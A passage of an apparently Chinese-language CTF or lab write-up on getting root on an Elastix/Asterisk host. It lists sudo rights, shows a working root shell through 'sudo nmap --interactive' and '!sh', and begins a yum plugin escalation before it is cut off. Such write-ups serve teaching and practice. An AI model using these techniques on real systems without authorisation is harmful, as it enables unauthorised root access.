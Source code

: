 ### sudo

```Bash
id
uid=100(asterisk) gid=101(asterisk)
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```

提供了很多命令，[GTFOBins](https://gtfobins.github.io/)找找

#### nmap 交互模式提权

```Bash
id
uid=100(asterisk) gid=101(asterisk)

sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```



#### yum 交互提权

```Bash
sh-3.2$ TF=$(mktemp -d)
sh-3.2$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
sh-3.2$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
sh-3.2$ cat >$TF/y.py<<EOF
> import os
```